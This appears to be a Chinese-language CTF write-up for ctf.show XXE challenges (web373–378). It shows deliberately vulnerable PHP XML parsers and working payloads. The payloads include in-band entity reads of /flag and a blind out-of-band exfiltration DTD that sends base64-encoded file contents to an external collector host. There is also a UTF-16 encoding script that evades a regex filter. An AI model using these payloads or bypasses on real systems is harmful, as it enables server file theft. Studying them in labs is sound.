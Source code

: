 ## web373(有回显)

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);
```

```
libxml_disable_entity_loader — 禁用加载外部实体的功能,作用是设置是否禁止从外部加载XML实体，设为true就是禁止
```

```
simplexml_import_dom — 从DOM节点获取SimpleXMLElement对象
```

## web374，375，376(无回显)

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);
```

payload：

```dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://60.204.212.151/evil.dtd">
%remote;%int;%send;
]>
```

在服务器上放一个evil.dtd文件，内容如下

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://43zptel7.requestrepo.com/%file;'>">
```

## web377(UTF-16编码绕过正则)

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);
```

payload

用python代码，进行编码

```python
import requests

url = 'http://80d39f7c-21af-4ddd-b4ca-7b368785de72.challenge.ctf.show/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://60.204.212.151/evil.dtd">
%remote;%int;%send;
]>
"""
payload = payload.encode('utf-16')
print(payload)
print(requests.post(url, data=payload))
```

> 一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
>
> 在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。
>
> 外来编码也可用于绕过成熟的WAF，因为它们并不总是能够处理上面列出的所有编码。例如，libxml2解析器只支持一种类型的utf-32 - utf-32BE，特别是不支持BOM。
>

## web378(引入外部实体)

```http
POST /doLogin HTTP/1.1
Host: 17b96e8f-2c07-4d3d-92c9-0950800b0c5a.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/xml;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
Origin: http://17b96e8f-2c07-4d3d-92c9-0950800b0c5a.challenge.ctf.show
Connection: close
Referer: http://17b96e8f-2c07-4d3d-92c9-0950800b0c5a.challenge.ctf.show/

<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>1</password></user>
```

payload

```dtd
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>1</password></user>
```


